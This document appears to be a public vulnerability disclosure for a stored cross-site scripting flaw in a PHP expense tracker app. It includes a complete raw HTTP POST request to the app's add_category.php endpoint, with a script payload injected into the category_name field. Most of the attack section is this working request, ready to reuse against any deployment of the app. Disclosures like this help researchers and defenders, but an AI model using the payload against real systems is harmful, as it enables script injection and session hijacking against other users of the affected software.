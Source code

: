 # Simple expense tracker app

# Exploit Title:
XSS  Stored  (Expense Tracker App Using PHP with Source Code)
# Date:
23/09/2023
# Exploit Author:

Xcode0x (Mohamed Almarri)

Twitter: @xcode0x

# Vendor Homepage:
[https://www.sourcecodester.com/users/remyandrade]()
# Software Link:
https://www.sourcecodester.com/php/16794/simple-expense-tracker-app-using-php-source-code.html
# Version:
v1
# Tested on:
debian

----
# XSS Stored :

XSS stored when add category in "/simple-expense-tracker-app/endpoint/add_category.php" 

# POC [debian]:

1- add  category 

2- in category_name put your payload 

POST /simple-expense-tracker-app/endpoint/add_category.php HTTP/1.1

Host:  localhost

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://localhost/simple-expense-tracker-app/

Content-Type: application/x-www-form-urlencoded

Content-Length: 84

Origin: http://localhost

Connection: close

Upgrade-Insecure-Requests: 1



tbl_expense_category_id=&category_name=<script>alert('By:Xcode0x')</script>&category_budget=1

 # Tested  

 Linux - debian
